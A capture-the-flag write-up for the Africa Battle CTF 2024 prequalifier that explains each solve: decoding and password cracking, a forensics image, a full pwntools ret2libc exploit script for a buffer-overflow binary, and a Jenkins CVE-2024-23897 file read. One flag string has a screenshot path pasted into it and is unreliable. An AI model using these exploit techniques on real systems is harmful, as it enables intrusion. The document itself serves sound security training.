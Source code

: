 # AFRICA BATTLE CTF 2024 PREQUAL

#### Challenges:
- Rules (Misc)
- Invite Code (Misc)
- Do[ro x2] (Forensics)
- Poj(Pwn)
- Jenkins (Web)
- Hmmmm!... (Web): _But not submitted, cause time over_

## Rules (Misc)
![image](./assets/1.png)

```
Flag: battleCTF{HereWeGo}
```
## Invite Code (Misc)

The challenge in question was made available before the CTF event started and can be found on bug|pwn Discord, Twitter and LinkedIn.

![image](./assets/2.png)
![image](./assets/3.png)

Decode the hex use *invite.ini* content and decode as b64 and extract gzip archive
![image](./assets/4.png)

Now we crack the user pasword using john and rockyou wordlist and find password **nohara**

![image](./assets/5.png)

At this point we use cracked password as key to decrypt RC4 encryption and got the flag

![image](./assets/6.png)

```
Flag: battleCTF{pwn2live_d7c51d9effacfe021fa0246e031c63e9116d8366875555771349d96c2cf0a60b}
```

## Do[ro x2] (Forensics)

In this challenge they provide us an [**AD1 file**](./Dororo/roro.ad1)

By using FTK Imager 4.7.xx we provide the password *Dororo* like chall name and it worked !

![image](./assets/7.png)

## Poj(Pwn)

Giving us 64 bits ELF file:

![image](./assets/8.png)

checksec result:

```sh
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./
```
After running the program we notice that some address is leaked
![image](./assets/9.png)

Now, decompile the program and figure out that it's libc **write** function. Here's the code
![image](./assets/10.png)

```c
void data.0000117d(void)
{
    write(1, "Africa battle CTF 2024\n", 0x17);
    printf("Write() address : %p\n", _write);
    fcn.0000115c();
    return;
}
```

Here is the decompile code of *fcn.0000115c()* function
![image](./assets/11.png)

```c
void fcn.0000115c(void)
{
    void *buf;
    
    read(0, &buf, 0x100);
    return;
}
```
Obviously we see a potential buffer overflow because it's read 0x100 bytes but *buf* @ stack - 0x48, so offset to RIP is 0x48 i.e 72

Confirmed: 
![image](./assets/12.png)

To determine the libc base here, we need to subtract the leaked libc value of the write function from the actual offset of write@libc.

Here is my [script](./poj/solve.py) to solve

```python
from pwn import *


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw, env={"LD_PRELOAD":"./libc.so.6"})


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './poj'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

libc = ELF("./libc.so.6", checksec=False)
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

offset = 0x48

io.recvuntil(b'address : ')

write_addr = int(io.recvline(), 16)


libc_base = write_addr -  libc.sym['write']
system = libc_base + 0x4dab0
binsh = libc_base + 0x197e34

# POP RDI gadget (found with ropper)
pop_rdi = libc_base + 0x28215
ret = libc_base + 0x2668c


info('Write addrs: %#x', write_addr)
info('libc_base base addr: %#x ', libc_base)
info('pop rdi addr: %#x ', pop_rdi)
info('ret addr: %#x ', ret)

payload = flat(
            asm('nop') * offset,
            pop_rdi,
            binsh,
            ret,
            system)


io.sendline(payload)


io.interactive()
```

![image](./assets/13.png)

```
Flag: battleCTF/home/meta/Pictures/Screenshots/Screenshot from 2024-10-21 21-32-14.png{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd}
```

## Jenkins (Web)

![image](./assets/14.png)

In this challenge Jenkins is version 2.441 and vulnerable to CVE-2024-23897

By using *jenkins-cli.jar* utils we able read local file on server

Flag location was guessy but we find it in /etc

![image](./assets/15.png)

```
Flag: battleCTF{I_Tr4vEl_T0_battleCTF_3bb8a0f488816fc377fc0cde93f2e0b1d4c1f9fda09dfaa4962d44d5a09f8fdb}
```

## Hmmmm!... (Web)